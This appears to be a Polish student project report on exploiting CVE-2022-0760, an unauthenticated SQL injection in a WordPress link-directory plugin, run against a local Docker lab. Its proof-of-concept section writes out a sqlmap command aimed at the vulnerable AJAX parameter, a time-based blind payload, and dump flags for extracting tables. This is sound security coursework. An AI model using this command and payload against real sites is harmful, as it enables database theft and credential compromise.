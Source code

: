 <p align="center">
    <img width="20%" src="..\Logo\logo-pwr.png">
    <h1 align="center">Zadanie - atak na Wordpress</h1>
    <h3 align="center">Bezpieczeństwo aplikacji webowych (projekt)</h3>
    <h3 align="center">piątek 8:15</h3>
</p>

---

W ramach zadania projektowego wykonano raport przeprowadzeonego ataku na dowolnie wybraną wersję Wordpress'a (z wybraną dowolnie wtyczką).

## Wybrana podatność - CVE-2022-0760 - Unauthenticated SQL injection in Simple Link Directory

Wybrana podatność to `Unauthenticated SQL injection` dla wtyczki Wordpress [Simple Link Directory](https://wordpress.org/plugins/simple-link-directory/) - [CVE-2022-0760](https://nvd.nist.gov/vuln/detail/CVE-2022-0760).


- Severity -  9.8 Critical 
- CVSS - CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H 
- CWE - CWE-89 - Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') 

Wtyczka nie waliduje i nie usuwa parametru `post_id` przed wykorzystaniem go w instrukcjach SQL za pomocą akcji w AJAX `qcopd_upvote_action`, co może umożliwić nieupoważnionym atakującym przeprowadzenie ataku `SQL injection`.


Podatność dotyczy wersji wtyczki `Simple Link Directory` w wersji poniżej 7.7.2.
Podatność została zgłoszona 28 lutego 2022 przez https://cyllective.com.

Podatność została finalnie poprawiona w wersji 7.7.2.


Stronę WordPress z podatną wtyczką można przeskanować w ramach narzędzia [WPScan](https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210) - posiada jej detekcje w swoim zbiorze danych.


## Obraz Docker - Wordpress

W ramach zadania utworzono plik [DockerFile](DockerFile), który tworzy podatną instancję Wordpress z potrzebnymi komponentami.
Strona jest wystawiona na porcie 18000.

Aby uruchomić kontener należy wykonać poniższe komendy:
```
docker build -t wordpress . 
docker run --name=wordpress --rm -p 18000:80 -it -e WORDPRESS_SITE_URL=localhost:18000 wordpress
```

Uruchomioną stronę można podejrzeć pod adresem `localhost:18000`.\
![Start](Images/wp.PNG)

## Wykorzystanie podatności - PoC

W ramach wykorzystania podatności zasymulowano scenariusz ataku SQLi Injection na podatną stronę WordPress.

Aby to zrobić wykorzystano narzędzie `sqlmap` - potwierdzi ono występowanie podatności.
W tym celu wykorzystano podatną akcje AJAX `qcopd_upvote_action` wraz z `post_id`.

```
sqlmap -u "http://localhost:18000/wp-admin/admin-ajax.php" --data 'action=qcopd_upvote_action&post_id=1' -p post_id --dbms mysql
```

W wyniku wykonania powyższej komendy uzyskujemy informacje o podatnym parametrze `post_id` - jest możliwe wstrzyknięcie kodu SQLi `Blind time based `.

Ładunek, który można wykorzystać to:

```
Parameter: post_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=qcopd_upvote_action&post_id=1 AND (SELECT 9007 FROM (SELECT(SLEEP(5)))hwvp)
```

![sql](Images/sqlmap.PNG)

Dzięki fladze `--tables` można otrzymać po dłuższym czasie informacje o zawartych strukturach w bazie danych. Należy pamiętać, że zapytania `Blind time-based` są powolne.

![sql_tables1](Images/sqlmap_tables1.PNG)
![sql_tables2](Images/sqlmap_tables2.PNG)
![sql_tables3](Images/sqlmap_tables3.PNG)

Przykładowo dla innych flag można uzyskać więcej informacji o tabelach - `-T <table> --columns`, a następnie je pobrać dodając flagę `--dump`.

W przypadku strony Wordpress, która posiadałaby w bazie danych tabele np. użytkowników, możnabyłoby uzyskać jej kopię i wykorzystać dane do wykradnięcia poświadczeń.

